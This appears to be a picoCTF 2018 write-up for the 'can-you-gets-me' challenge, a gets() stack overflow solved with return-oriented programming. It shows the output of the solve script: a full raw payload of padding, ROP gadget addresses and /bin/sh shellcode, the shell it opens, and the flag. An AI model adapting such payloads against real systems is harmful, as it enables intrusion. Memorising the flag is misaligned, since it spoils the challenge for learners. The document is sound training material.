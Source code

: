 # can-you-gets-me - Points: 650 - (Solves: 176)

Can you exploit the following [program][1] to get a flag?
You may need to think return-oriented if you want to program your way to the flag
You can find the program in
/problems/can-you-gets-me_2_da0270478f868f229487e59ee4a8cf40 on the shell server
[Source][2]

[1]: https://2018shell2.picoctf.com/static/1120b16ef97aa6fd03344d933ede82f2/gets
[2]: https://2018shell2.picoctf.com/static/1120b16ef97aa6fd03344d933ede82f2/gets.c

## Hints

This is a classic gets ROP

---

```sh
% py solve.py
[*] '/home/zzzz/pico18/can-you-gets-me/gets'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loaded cached gadgets for 'gets'
[+] Starting local process './gets': pid 1223126
[*] Sending: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAA*\xf0\x06\x08\xec\x9f\x0e\x08\x03\x93\x04\x08o\xa8\x07\x08o\xa8\x07\x08o\xa8\x07\x08o\xa8\x07\x08o\xa8\x07\x08o\xa8\x07\x08o\xa8\x07\x08\xdbI\x05\x08\xc6\x81\x0b\x08\xc8\x9f\x0e\x08@\xa1\t\x08\xd6\x81\x0b\x081\xc9\xf7\xe1\xb0\x0bQh//shh/bin\x89\xe3\xcd\x80'
[+] Here are your shell!
[*] Switching to interactive mode
total 20
drwxrwxr-x 2 zzzz zzzz 4096 Oct 10 16:18 .
drwxrwxr-x 4 zzzz zzzz 4096 Oct  9 20:48 ..
lrwxrwxrwx 1 zzzz zzzz   69 Oct 10 16:17 flag.txt -> /problems/can-you-gets-me_2_da0270478f868f229487e59ee4a8cf40/flag.txt
lrwxrwxrwx 1 zzzz zzzz   65 Oct 10 16:18 gets -> /problems/can-you-gets-me_2_da0270478f868f229487e59ee4a8cf40/gets
-rw-rw-r-- 1 zzzz zzzz 3095 Oct 10 16:01 solve.py
$ cat flag.txt
picoCTF{rOp_yOuR_wAY_tO_AnTHinG_f5072d23}
```
